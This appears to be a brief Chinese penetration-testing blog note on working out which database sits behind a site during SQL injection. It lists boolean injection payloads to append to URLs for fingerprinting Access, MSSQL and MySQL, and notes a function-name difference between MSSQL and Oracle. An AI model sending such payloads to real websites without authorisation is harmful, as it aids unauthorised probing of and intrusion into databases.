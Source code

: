 +++
date = "2016-06-19T22:15:52+08:00"
description = ""
draft = false
tags = ["注入"]
title = "SQL注入之判断数据库类型"
topics = ["Pentest"]

+++

### 0x01 扫描端口

### 0x02 指纹信息

### 0x03 在URL后面直接判断
> ```
Access:
    and (select count(*) from MSysAccessObjects)>0 返回正常说明是access
    and exists(select count(*) from 表)
SQLserver:
    and (select count(*) from sysobjects) >0 返回正常说明是mssql
MySQL:
    and length(user())>0    返回正常说明是MySQL
```

### 0x04 其他方法
> ```
在mssql中可以调用substring。oracle则只可调用substr
```